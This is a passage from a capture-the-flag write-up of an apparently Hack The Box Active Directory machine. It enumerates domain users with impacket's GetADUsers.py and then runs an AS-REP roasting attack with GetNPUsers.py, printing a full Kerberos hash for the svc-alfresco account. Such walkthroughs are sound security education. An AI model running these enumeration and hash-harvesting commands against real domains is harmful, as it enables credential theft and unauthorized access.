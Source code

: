 Looks like we didn't manage to get any hashes... 

At this point, I wasn't sure how to carry on so I check the forums for hints. Many of them actually stated that they were able to obtain a hash but instead of finding 5 usernames, they found 6? How was I missing a username? 

Inside of `impacket`'s collection of scripts, there was a file called [`GetADUsers.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py) which seemed hopeful.

{% highlight bash %}
$ GetADUsers.py -all htb.local/
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[*] Querying htb.local for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator         Administrator@htb.local         2019-09-18 13:09:08.342879  2019-10-07 06:57:07.299606 
Guest                                                 <never>                     <never>             
DefaultAccount                                        <never>                     <never>             
krbtgt                                                2019-09-18 06:53:23.467452  <never>             
$331000-VK4ADACQNUCA                                  <never>                     <never>             
...          
sebastien                                             2019-09-19 20:29:59.544725  2019-09-22 18:29:29.586227 
lucinda                                               2019-09-19 20:44:13.233891  <never>             
svc-alfresco                                          2019-11-16 07:54:12.200875  2019-11-16 07:52:19.754834 
andy                                                  2019-09-22 18:44:16.291082  <never>             
mark                                                  2019-09-20 18:57:30.243568  <never>             
santi                                                 2019-09-20 19:02:55.134828  <never> 
{% endhighlight %}

There it is! The 6th username is `svc-alfresco`. But I wonder why did the username not appear in our `LDAP` search results just now?

After appending the username to the list of usernames, we performed the `ASREPRoast` attack again.

{% highlight bash %}
$ GetNPUsers.py htb.local/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

$ cat hashes.asreproast
$krb5asrep$23$svc-alfresco@HTB.LOCAL:2bb5707401079b05d2add14953eb4d3c$e18b26c973eff18a7251f9f91af611d656b3534a66acd206f4354192c9c190583dc0444ec333ced4859abdd727fefe34277023f77ce6074bae70b015f6fb94d0abdd9f6c900c15d55f59919c7261e62c10f29f8e63cca4906f4df075a12e10398d094f1ca165a3b23a419501c363b77b607bdcf740931c0bb21866b2feed344d4195a1a164d7c27154e7a00131f9f7a6e8a7ac4845df6fe7b27656a6423126a3933503d7d507f68b787d21e1b80d1fefb09f0dfd237b8ff3e499613f5fd0e0baa2c000c1fcf069fc4d1d5bcedf98d8fb6d8eebf70d6233e10e40944ce5849c7bb94319d68229
{% endhighlight %}
